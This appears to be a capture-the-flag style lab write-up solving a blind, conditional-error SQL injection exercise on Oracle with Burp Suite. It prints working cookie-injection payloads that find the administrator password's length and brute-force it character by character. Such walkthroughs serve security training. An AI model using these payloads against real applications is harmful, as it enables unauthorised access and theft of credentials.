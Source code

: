 # Lab: Blind SQL injection with conditional errors

## Description

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## HINT

This lab uses an Oracle database. For more information, see the SQL injection cheat sheet.

# Step 1: Verify blind, conditional-error-based SQLi

## STEP 1 Finding injection point

I will be using burpsuite for this lab. To start, I start with intercept off and visit the target page in the browser. I also pull up the browser dev tools, in order to view and modify my cookie values.

![image](https://user-images.githubusercontent.com/83407557/169845297-c31515b2-98b3-478d-bdd7-07ed9c1e259c.png)

I then will try and attempt to get the server to error with a single quotation mark added to my tracking cookie and refreshing the page:

![image](https://user-images.githubusercontent.com/83407557/169846190-10990e6d-5b0e-4fe4-87a6-ff97b40404d2.png)

If I then add a comment -- the error goes away:

![image](https://user-images.githubusercontent.com/83407557/169846508-c3987f72-d92d-467a-9082-729621022ca5.png)


## STEP 2 Using true and false Select statement to cause an error

In oracle I need to select from something, which I will use the always valid table *dual*. 

A Valid statement would be:

```sql
SELECT * FROM dual
```

This is because dual exists and as long as the server can select from it, the statement will not error

and invalid statement would be:

```sql
SELECT * FROM doesnt_exist
```

So with that mind, I will need to concatonate this onto my payload like the following:

```sql

#Should NOT error
'||(SELECT * FROM dual)--

# SHOULD error
'||(SELECT * FROM doesn't_exist)--
```

![image](https://user-images.githubusercontent.com/83407557/169852091-d4c0f322-8cf5-408b-aca0-53e5724100ad.png)

![image](https://user-images.githubusercontent.com/83407557/169852204-6e97b877-fccd-4935-80d5-1b7878e34e55.png)

and it acts as expected.

## STEP 3 Crafting a True select statement that causes an error

since the goal is to guess each character of the administrators password, we need to make it so that if our select statement is true, the server will throw an error:

Because 1 does equal 1, this should error because 1/0 is an invalid operation

```sql
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--
```

![image](https://user-images.githubusercontent.com/83407557/169855167-14bdbf28-ab76-4e57-83cb-d699e7aefd39.png)

However with the following because 1 does not equal 2, the sever will select anything ('') from dual and therefore not error

```sql
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--
```


![image](https://user-images.githubusercontent.com/83407557/169855765-b282598e-32da-4d1e-9325-dac145575ca6.png)


# STEP 4 Creating string for burp-intruder payload to determine password length


Since we know the table name is users and the username column will be administrator, we need to dig out the password column for that entry:

I want to test if the password is greater than a given number, if it is: the server should error. If the password is smaller than the given number, the server should not error. I will know how long the password is based on the highest given number that still errors.

The initial string will just test if the password is more that 1 character long. I will then send it to burp intruder

```sql
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')--
```
I can then set the payload position at the number I am comparing the password length to:

![image](https://user-images.githubusercontent.com/83407557/169927613-cead1037-ddf6-49a4-9c06-119f40cfd87d.png)

And will set a sniper payload that is a set of numbers ranging from 1-30.

![image](https://user-images.githubusercontent.com/83407557/169927748-e8979edf-4647-4628-944f-71c6454a2ada.png)

This attack should error out until the password length is given from the set of numbers

![image](https://user-images.githubusercontent.com/83407557/169927902-6466f9bd-ea4c-4158-b194-959cb4a5fe88.png)

because the is password > 20 did not return an error, this lets me know that the password is 20 characters long.

# STEP 5 Use substring method to guess 20 character long password

In a similar fasion I can create a query that can guess the password one character at a time, until all 20 are guessed. 

The initial query string:

```sql
#This tests if the first character is an 'a'
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--

#This would check if the second character was 'b'
'||(SELECT CASE WHEN SUBSTR(password,2,1)='b' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')
```

With that in mind, lets build a burp intruder attack:

It will be a cluster bomb, with two payload positions. The first at the substring number, the second at the letter we are guessing.

![image](https://user-images.githubusercontent.com/83407557/169928628-e02b9304-e80c-4b53-9e4f-01d218dcb705.png)

The first payload will be the number 1-20

![image](https://user-images.githubusercontent.com/83407557/169928707-11642282-9a35-4c3a-804c-d85307f4061e.png)

the second is a brute force with all lowercase letters and the numbers 0-9.

![image](https://user-images.githubusercontent.com/83407557/169928811-7c43b756-79ee-4c82-83bb-752a0df3e34f.png)

As you can see this will create a lot of requests, so go get a coffee at the farther place that is a little more fancy (if you are on burp community like me). However we just are interested in the 20 responses that are errors, so after a nap, we should have the password.




